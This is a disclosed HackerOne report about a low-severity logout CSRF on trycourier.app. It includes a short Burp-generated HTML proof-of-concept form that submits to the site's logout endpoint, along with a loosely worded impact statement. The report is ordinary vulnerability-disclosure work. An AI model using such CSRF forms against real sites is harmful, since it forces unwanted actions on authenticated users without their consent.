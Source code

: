 # Logout page does not prevent CSRF

## Report Details
- **Report ID**: 905831
- **URL**: https://hackerone.com/reports/905831
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-06-23T05:17:34.092Z
- **Disclosed**: 2020-07-06T16:32:52.197Z

## Reporter
- **Username**: hackerboy404
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: trycourier

## Vulnerability Information
## Summary:
Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. ... If the victim is an administrative account, CSRF can compromise the entire web application.

## Steps To Reproduce:
  1.Create a CSRF logout POC using the following code.
Code That i use:--
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.trycourier.app/logout">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


## Supporting Material/References:
I have provided a attack senirio for it please check it

## Impact

Logout any victim into the attacker account, send the HTML made by attacker and then logout him from the Session.

The hacker selected the Cross-Site Request Forgery (CSRF) weakness. This vulnerability type requires contextual information from the hacker.

## Attachments
- csrf34.mp4
